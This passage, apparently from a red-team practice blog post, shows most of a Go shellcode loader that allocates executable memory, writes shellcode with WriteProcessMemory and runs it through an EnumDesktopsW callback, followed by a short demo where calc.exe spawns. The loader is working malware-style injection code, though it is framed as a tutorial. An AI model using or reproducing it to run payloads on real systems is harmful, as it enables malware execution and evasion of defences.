 ```go
    0,
    uintptr(len(shellcode)),
    windows.MEM_COMMIT | windows.MEM_RESERVE,
    windows.PAGE_EXECUTE_READWRITE,
  )

  pHandle, _, _ := GetCurrentProcess.Call()
  size := uintptr(len(shellcode))

  fmt.Println("Calling WriteProcessMemory...")
  WriteProcessMemory.Call(
    pHandle,
    address,
    uintptr(unsafe.Pointer(&shellcode[0])),
    uintptr(unsafe.Pointer(&size)),
  )

  winProc, _, _ := GetProcessWindowStation.Call()
  fmt.Println("Calling EnumDesktopsW...")
  _, _, err := EnumDesktopsW.Call(winProc, address, 0)
  if err != nil {
    log.Fatal(err)
  }

  time.Sleep(10000 * time.Millisecond)
  fmt.Println("Success!")
}
```

# Demo

I don't know why but it always breaks after calling ***EnumDesktopsW***, however the shellcode is executed and a calc.exe spawns. If I'm doing something wrong contact me to fix it as soon as possible.

Compile the code

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice8/compile.png" alt="pic">

Then we execute the program
